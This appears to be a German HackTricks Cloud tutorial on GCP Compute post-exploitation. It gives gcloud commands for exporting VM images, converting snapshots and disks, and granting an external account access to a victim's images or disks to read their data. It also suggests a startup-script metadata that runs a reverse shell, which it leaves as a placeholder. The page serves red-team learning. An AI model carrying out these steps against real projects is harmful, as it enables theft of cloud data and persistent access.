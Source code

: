 # GCP - Compute Post Exploitation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerke) siehe:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportieren & Lokale Überprüfung von Images

Dies würde einem Angreifer ermöglichen, **auf die in bereits vorhandenen Images enthaltenen Daten zuzugreifen** oder **neue Images von laufenden VMs zu erstellen** und auf ihre Daten zuzugreifen, ohne Zugriff auf die laufende VM zu haben.

Es ist möglich, ein VM-Image in einen Bucket zu exportieren und es dann herunterzuladen und lokal mit dem Befehl einzuhängen:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Vor der Durchführung dieser Aktion benötigt der Angreifer möglicherweise Berechtigungen über den Speicherbucket und auf jeden Fall **Berechtigungen über cloudbuild**, da es sich um den **Dienst** handelt, der gebeten wird, den Export durchzuführen. Darüber hinaus benötigen der Codebuild SA und der Compute SA privilegierte Berechtigungen. Der Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benötigt:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Und der SA `<project-id>-compute@developer.gserviceaccount.com` benötigt:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Snapshots & Disks lokal exportieren und überprüfen

Es ist nicht möglich, Snapshots und Disks direkt zu exportieren, aber es ist möglich, **einen Snapshot in eine Disk, eine Disk in ein Image zu transformieren** und gemäß dem **vorherigen Abschnitt** dieses Image zu exportieren, um es lokal zu überprüfen.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspektion eines Images zur Erstellung einer VM

Mit dem Ziel, auf die **in einem Image gespeicherten Daten** oder innerhalb einer **laufenden VM** zuzugreifen, von der aus ein Angreifer **ein Image erstellt hat**, ist es möglich, einem externen Konto Zugriff auf das Image zu gewähren:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

und erstellen Sie dann eine neue VM daraus:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Wenn Sie Ihrem externen Konto keinen Zugriff auf das Image geben konnten, könnten Sie eine VM mithilfe dieses Images im Projekt des Opfers starten und **die Metadaten so konfigurieren, dass ein Reverse-Shell ausgeführt wird**, um auf das Image zuzugreifen, indem Sie den Parameter hinzufügen:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Überprüfen Sie ein Snapshot/Disk, indem Sie ihn an eine VM anhängen

Mit dem Ziel, auf die **in einer Festplatte oder einem Snapshot gespeicherten Daten zuzugreifen, könnten Sie den Snapshot in eine Festplatte, eine Festplatte in ein Image umwandeln und die vorherigen Schritte befolgen.**

Oder Sie könnten einem **externen Konto Zugriff gewähren** über die Festplatte (wenn der Ausgangspunkt ein Snapshot ist, gewähren Sie Zugriff über den Snapshot oder erstellen Sie eine Festplatte daraus):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Fügen Sie die Festplatte** einer Instanz hinzu:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Montieren Sie die Festplatte innerhalb der VM:

1. **SSH in die VM**:

```sh
gcloud compute ssh [INSTANZ_NAME] --zone [ZONE]
```

2. **Identifizieren Sie die Festplatte**: Sobald Sie sich in der VM befinden, identifizieren Sie die neue Festplatte, indem Sie die Festplattengeräte auflisten. Normalerweise finden Sie sie als `/dev/sdb`, `/dev/sdc`, usw.
3. **Formatieren und Mounten Sie die Festplatte** (wenn es sich um eine neue oder Roh-Festplatte handelt):

* Erstellen Sie einen Mount-Punkt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

* Mounten Sie die Festplatte:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Wenn Sie **keinem externen Projekt Zugriff auf den Snapshot oder die Festplatte geben können**, müssen Sie diese Aktionen möglicherweise **innerhalb einer Instanz im selben Projekt wie der Snapshot/die Festplatte** durchführen.
